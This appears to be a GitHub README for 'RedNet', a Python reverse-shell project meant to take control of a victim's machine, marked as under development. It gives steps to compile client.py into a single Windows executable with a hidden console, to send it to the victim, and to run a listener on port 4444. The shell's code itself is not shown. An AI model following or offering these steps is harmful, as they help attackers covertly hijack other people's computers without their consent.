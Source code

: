 # **RedNet**

### A reverse shell in which you can take control of the victim's machine.
> Is under development

## Transforming py to exe

### If python is installed, on console, write
- ``` pip install pyinstaller ``` **or** ``` python -m pip install pyinstaller ``` **| Its install the pyinstaller**
- ``` pyinstaller --onefile --windowed client.py ``` 
> --onefile | **Generate a single file**

> --windowed | **Hide the console**

> Send client.py to the victim.

## Listen port 4444
- ``` python server.py ``` **on 'IP:' write 0.0.0.0 and on 'PORT:' the port to listen ex: 4444**



### 👷‍ Building...
